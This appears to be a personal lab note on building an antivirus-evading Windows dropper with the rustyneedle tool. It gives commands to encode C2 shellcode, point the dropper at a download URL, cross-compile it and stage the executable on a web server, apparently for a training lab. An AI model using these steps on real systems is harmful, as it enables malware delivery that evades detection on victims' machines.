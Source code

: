 rustyneedle is a python script used to modify raw shellcode, and provide an executable.

https://codeberg.org/mttaggart/rustyneedle

```
# Clone the repo
git clone https://codeberg.org/mttaggart/rustyneedle.git

# Install rust
sudo apt install rustup -y
rustup default stable

# Set the compilation target, and add it in this case 64 bit Windows
rustup target add x86_64-pc-windows-gnu
```
There's a few things we have to do. We have to install rust, modify the  src/main.rs file to our options

Specifically, modify the number of base64 iterations, and where the shellcode is downloaded from.

Take note of lines 10 and 12
![[notes/Atomic-Notes/40-TOOLS/42000-AV-BYPASS/4210-rustyneedle/Pasted image 20250529002207.png]]

Now, we need to make our encoded shellcode.
```bash
# Create raw shellcode, like with C2 Mythic. It will be an output option, .bin extension
cd rustyneedle
cp ~/c2/shellcode.bin .

# Encode the shellcode. note that the output file name is note.txt
python3 rustyneedle/encode.py shellcode.bin 3 note.txt

# Take note of where in the dropper we put the downloaded url, and put the note.txt shellcode file there

# Compile the main.rs dropper
cargo build --target x86_64-pc-windows-gnu --release

# Navigate the binary and put it where we want
cp target/x86_64-pc-windows-gnu/release/rustyneedle.exe ~/prolab/cybernetic/web



```

